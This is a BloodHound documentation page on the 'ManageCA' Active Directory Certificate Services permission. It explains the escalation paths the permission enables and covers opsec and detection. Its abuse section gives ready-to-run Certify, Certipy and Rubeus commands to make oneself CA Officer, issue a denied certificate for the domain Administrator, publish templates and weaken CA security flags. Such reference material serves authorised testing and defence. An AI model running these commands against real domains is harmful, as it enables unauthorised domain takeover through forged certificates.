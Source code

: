 ```yaml
---
title: ManageCA
description: The principal has the "Manage CA", also known as "CA Administrator", permission on the Enterprise CA.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to configure the CA to allow subject alternate names, publish certificate templates, grant "Manage Certificates", grant enrollment rights, change certain CA flags, and more.

CA Administrators can perform the following actions that may enable an ADCS escalation:

1. Grant CA Officer (ManageCertificates) and approve a denied certificate request
2. Publish a certificate template (e.g. one that enables an ESC1 condition)
3. Grant Enroll on the enterprise CA
4. Enable the ESC6 CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
5. Disable the ESC11 enforcement flag `IF_ENFORCEENCRYPTICERTREQUEST` (weakens RPC enrollment security; enables relay)
6. Disable the security extension on the enterprise CA (ESC16)
7. Abuse a CRL Distribution Point (CDP) to coerce and relay the CA server
8. Abuse a CDP to obtain RCE on the CA server (e.g., via web shell)

## Abuse Info

This relationship alone is not automatically a privilege escalation; however, it frequently enables one of several ADCS escalation paths when combined with template / CA configuration weaknesses.


### 1. Grant CA Officer and Approve a Denied Request

Role separation (when enabled) prevents a single principal from holding both ManageCA and ManageCertificates, but this configuration is rare.

**Windows**

Grant the CA Officer (ManageCertificates) role with Certify (v2.0):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --officer S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```
Request an ESC1 (or other high-value) certificate you don't have enrollment rights for:
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Approve the denied certificate request by ID:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the certificate (captures private key in Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (example with Rubeus):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

**Linux**
Grant CA Officer (ManageCertificates) role:
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password 'Passw0rd'
```
Issue (approve) a previously denied request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

### 2. Publish a Certificate Template

**Windows**

Publish/unpublish a template (e.g. enabling ESC1):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --template MyTemplate
```

**Linux**

Publish a template:
```bash
certipy ca -ca 'corp-DC-CA' -enable-template TemplateCN -username john@corp.local -password 'Passw0rd'
```

See the ADCS ESC1 abuse documentation for subsequent exploitation steps: [ADCSESC1](/resources/edges/adcs-esc1)

### 3. Grant Enroll on Enterprise CA

**Windows**

Grant or revoke CA enrollment rights (required for certificate issuance):

```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --enroll S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```

### 4. Enable ESC6 Flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc6
```
Restart of the CA service (requires local admin) is needed for the change to apply.
See the ADCS ESC6 abuse documentation for subsequent exploitation steps: [ADCSESC6a](/resources/edges/adcs-esc6a)

### 5. Disable ESC11 Flag `IF_ENFORCEENCRYPTICERTREQUEST`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc11-req
```
Restart of the CA service required.

### 6. Disable Security Extension (ESC16)
**Windows**

Set CA settings for ESC16:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc16
```
Restart of the CA service required.

### 7 & 8. Abuse CDP for Coercion / RCE

Techniques to coerce & relay or achieve RCE via CDP manipulation are described here: [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)


## Opsec Considerations

Abusing these capabilities commonly results in certificate issuance; issued certificates (and sometimes pending requests) leave artifacts on the CA host. Enabling/disabling flags or publishing templates may generate observable administrative events and typically requires a CA service restart for certain changes (ESC6, ESC11, ESC16) to take effect.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCA](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#manageca)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)
* [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)

